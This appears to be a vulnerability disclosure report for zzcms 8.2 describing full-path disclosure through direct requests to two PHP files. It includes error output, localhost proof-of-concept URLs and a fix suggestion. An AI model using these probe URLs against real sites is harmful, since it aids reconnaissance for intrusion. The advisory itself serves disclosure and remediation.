 # zzcms
zzcms_8.2_bug


> [Suggested description]
> zzcms 8.2 allows remote attackers to discover the full path via
> a direct request to
> 3/qq_connect2.0/API/class/ErrorCase.class.php or
> 3/ucenter_api/code/friend.php.
>
> ------------------------------------------
>
> [Additional Information]
> The vulnerability was discovered by downloading the program's source code to local and online deployment tests.
>
> Location :
> domain/3/qq_connect2.0/API/class/ErrorCase.class.php
>
> Code :
> require_once(CLASS_PATH."Recorder.class.php");
>
> Rows : 8
>
> Return error :
> Notice: Use of undefined constant CLASS_PATH - assumed 'CLASS_PATH' in /www/3/qq_connect2.0/API/class/ErrorCase.class.php on line 8
> Warning: require_once(CLASS_PATHRecorder.class.php): failed to open stream: No such file or directory in /www/3/qq_connect2.0/API/class/ErrorCase.class.php on line 8
> Fatal error: require_once(): Failed opening required 'CLASS_PATHRecorder.class.php' (include_path='.;C:\php\pear') in /www/3/qq_connect2.0/API/class/ErrorCase.class.php on line 8
>
> Harm:
> Web Site physical path leakage .
>
> Conditions for Execution :
> Normal access can
>
> Edition :
> zzcms 8.2
>
> Cause the cause :
> require_once(): Failed opening required 'CLASS_PATHRecorder.class.php' (include_path='.;C:\php\pear') in /www/3/qq_connect2.0/API/class/ErrorCase.class.php, cause path leakage.
>
> POC :
> http://127.0.0.1/3/qq_connect2.0/API/class/ErrorCase.class.php
>
>
>
>
> Location :
> domain/3/ucenter_api/code/friend.php
>
> Code :
>  $num = uc_friend_totalnum($Example_uid);
>
> Rows : 14
>
> Return error :
> Fatal error: Call to undefined function uc_friend_totalnum() in /www/3/ucenter_api/code/friend.php on line 14
>
> Harm :
> Web Site physical path leakage .
>
> Conditions for Execution :
> Normal access can
>
> Edition :
> zzcms 8.2
>
> Cause the cause :
> Call to undefined function uc_friend_totalnum() in /www/3/ucenter_api/code/friend.php, cause path leakage.
>
> POC :
> http://127.0.0.1/3/ucenter_api/code/friend.php
>
>
> fix suggestions :
> Modify the application source code to avoid information leakage.
>
> ------------------------------------------
>
> [VulnerabilityType Other]
> Physical path leaked
>
> ------------------------------------------
>
> [Vendor of Product]
> ZZCMS
>
> ------------------------------------------
>
> [Affected Product Code Base]
> zzcms - 8.2
>
> ------------------------------------------
>
> [Affected Component]
> ErrorCase.class.php , Use of undefined constant CLASS_PATH - assumed 'CLASS_PATH' , require_once(): Failed opening required 'CLASS_PATHRecorder.class.php'
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Information Disclosure]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> The vulnerability is triggered by accessing the following URL :
> http://127.0.0.1/3/qq_connect2.0/API/class/ErrorCase.class.php
> http://127.0.0.1/3/ucenter_api/code/friend.php
>
> ------------------------------------------
>
> [Discoverer]
> kongxin
